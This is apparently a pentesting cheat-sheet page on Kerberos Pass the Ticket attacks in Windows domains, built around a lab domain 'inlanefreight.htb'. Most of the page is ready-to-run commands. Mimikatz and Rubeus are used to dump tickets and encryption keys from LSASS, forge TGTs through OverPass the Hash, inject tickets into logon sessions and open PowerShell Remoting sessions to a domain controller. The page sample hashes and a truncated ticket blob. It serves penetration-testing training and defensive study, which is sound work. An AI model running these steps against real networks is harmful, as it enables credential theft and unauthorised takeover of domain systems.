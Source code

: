 ```yaml
---
title: Pass the Ticket (PtT) from Windows
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - lateral
  - movement
---
```

# Pass the Ticket (PtT) 

In this attack, we use a stolen Kerberos ticket to move laterally. It can be:

- Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.
- Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.

## Harvesting Kerberos Tickets from Windows

On Windows, tickets are processed and stored by the LSASS (Local Security Authority Subsystem Service) process. Therefore, to get a ticket from a Windows system, you must communicate with LSASS and request it.

**As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.**

### Mimikatz - Export Tickets

```cmd-session
.\mimikatz.exe
privilege::debug
sekurlsa::tickets /export
exit
dir *.kirbi
```

### Rubeus

If running as Local admin it will dump all the tickets. `Rubeus dump`, instead of giving us a file, will print the ticket encoded in base64 format.

```cmd-session
Rubeus.exe dump /nowrap
```


## Forge your own tickets with Pass the Key or OverPass the Hash

The `Pass the Key` or `OverPass the Hash` approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`.

**Note:** Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

### Mimikatz  - Pass the Key or OverPass the Hash

It requires administrative rights.

**1.** Get hashes with sekurlsa::ekeys

To forge our tickets, we need to have the user's hash; we can use Mimikatz to dump all users Kerberos encryption keys using the module `sekurlsa::ekeys`. This module will enumerate all key types present for the Kerberos package.

```cmd-session
mimikatz.exe
privilege::debug
sekurlsa::ekeys
```

Now that we have access to the `AES256_HMAC` and `RC4_HMAC` keys, we can perform the OverPass the Hash or Pass the Key attack using `Mimikatz` and `Rubeus`.

**2.** Pass the Key or OverPass the Hash

```cmd-session
mimikatz.exe
privilege::debug
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

This will create a new `cmd.exe` window that we can use to request access to any service we want in the context of the target user.

### Rubeus - Pass the Key or OverPass the Hash

It does not require administrative rights.

```cmd-session
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

This is not the case, but if we would want to crack the ticket, we could use [kirbi2john](kirbi2john.md) and hashcat to proceed.

## Pass the Ticket (PtT) with Rubeus

Now that we have some Kerberos tickets, we can use them to move laterally within an environment.

### With /ptt
With `Rubeus` we performed an OverPass the Hash attack and retrieved the ticket in base64 format. Instead, we could use the flag `/ptt` to submit the ticket (TGT or TGS) to the current logon session.

```cmd-session
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

### With kirbi file

```cmd-session
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```

### With kirbi in base64

We can also use the base64 output from Rubeus or convert a .kirbi to base64 to perform the Pass the Ticket attack. We can use PowerShell to convert a .kirbi to base64.

Convert .kirbi to Base64 Format: 

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```

Using Rubeus, we can perform a Pass the Ticket providing the base64 string instead of the file name.

```cmd-session
Rubeus.exe ptt /ticket:doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4i71zFcWRgpx8ovymu3HmbOL4MJVCfkGIrdJEO0iPQbMRY2pzSrk/gHuER2XRLdV/<SNIP>
```


## Pass the Ticket (PtT) with mimikatz

```cmd-session
.\mimikatz.exe 
privilege::debug
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"

```


## Pass The Ticket with PowerShell Remoting (Windows)

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to run scripts or commands on a remote computer.  

Administrators often use PowerShell Remoting to manage remote computers on the network.

Enabling PowerShell Remoting creates both HTTP and HTTPS listeners.

To create a PowerShell Remoting session on a remote computer, you must:
- have administrative permissions, 
- be a member of the Remote Management Users group, 
- or have explicit PowerShell Remoting permissions in your session configuration.

### With mimikatz

```powershell
# To use PowerShell Remoting with Pass the Ticket, we can use Mimikatz to import our ticket
.\mimikatz.exe
privilege::debug
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
exit

# And then open a PowerShell console and connect to the target machine
powershell
Enter-PSSession -ComputerName DC01
```

### With Rubeus

**1.** Create a Sacrificial Process with Rubeus

Rubeus has the option createnetonly, which creates a sacrificial process/logon session (Logon type 9).

```cmd-session
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

# The command above will open a new cmd window.
```

**2.** Rubeus - Pass the Ticket for Lateral Movement

Execute Rubeus to request a new TGT with the option /ptt to import the ticket into our current session:

```cmd-session
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt
```

**3.** Connect to the DC using PowerShell Remoting.

```cmd-session
powershell
Enter-PSSession -ComputerName DC01
```